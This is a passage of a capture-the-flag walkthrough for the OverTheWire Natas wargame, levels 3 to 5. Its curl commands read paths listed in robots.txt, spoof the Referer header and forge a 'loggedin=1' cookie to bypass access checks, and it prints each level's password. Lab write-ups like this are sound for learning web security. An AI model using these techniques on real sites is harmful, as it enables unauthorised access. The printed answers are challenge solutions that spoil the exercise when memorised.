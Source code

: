 ```
$ curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/
```

```
<!-- No more information leaks!! Not even Google will find it this time... -->
```

Check the `robots.txt`.

```
$ curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/robots.txt
User-agent: *
Disallow: /s3cr3t/
```

There is also a `user.txt` with password for the next level.

```
$ curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

# 5. Level 4

This level determines where we come from by `Referer` header field.

```
$ curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/ -H 'Referer:http://natas5.natas.labs.overthewire.org/'
```

```
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```

# 6. Level 5

```
$ curl -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ -v
```

Find `Set-Cookie: loggedin=0`.

```
$ curl -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ -b 'loggedin=1'
```

```
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

# 7. Level 6
